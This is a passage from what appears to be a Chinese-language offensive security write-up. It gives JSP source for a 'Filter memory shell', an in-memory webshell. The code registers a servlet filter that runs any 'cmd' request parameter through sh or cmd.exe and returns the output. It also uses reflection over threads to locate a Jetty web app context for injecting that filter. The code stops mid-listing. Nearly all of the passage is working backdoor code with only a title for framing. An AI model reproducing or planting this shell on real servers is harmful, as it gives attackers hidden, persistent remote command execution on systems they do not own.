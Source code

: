 
## 命令执行写 Filter 内存马

适用于当前环境的 Filter 内存马:

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
```